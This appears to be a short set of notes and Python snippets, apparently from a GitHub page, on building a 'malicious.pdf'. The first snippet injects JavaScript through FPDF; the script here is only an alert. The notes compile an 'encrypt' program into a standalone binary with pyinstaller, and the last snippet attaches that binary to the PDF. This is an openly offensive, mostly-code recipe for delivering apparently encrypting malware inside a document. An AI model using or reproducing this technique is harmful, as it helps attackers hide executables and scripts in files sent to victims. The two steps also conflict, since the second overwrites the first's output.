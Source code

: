```python
from fpdf import FPDF

class PDFWithJS(FPDF):
    def include_js(self, script):
        self._out(f"/Names [(EmbeddedJS) << /S /JavaScript /JS ({script}) >>]")

pdf = PDFWithJS()
pdf.add_page()
pdf.set_font("Arial", size=12)
pdf.cell(200, 10, txt="This is a test PDF with embedded JavaScript.")

js = """
app.alert('This triggered when the pdf was opened.');
"""
pdf.include_js(js)
pdf.output("malicious.pdf")
```

**Notes:**
use `pyinstaller`. turns our script into binary so that we can run this on
any machine even if python is not installed

- something like:
  - pip3 install pyinstaller
  - pyinstaller --onefile encrypt.py

**Embedding:**
embed the binary into the pdf like so:

```python
from PyPDF2 import PdfWriter

# Create a new PDF and attach the binary
writer = PdfWriter()
writer.add_attachment("encrypt", open("encrypt", "rb").read())
with open("malicious.pdf", "wb") as f:
    writer.write(f)
```
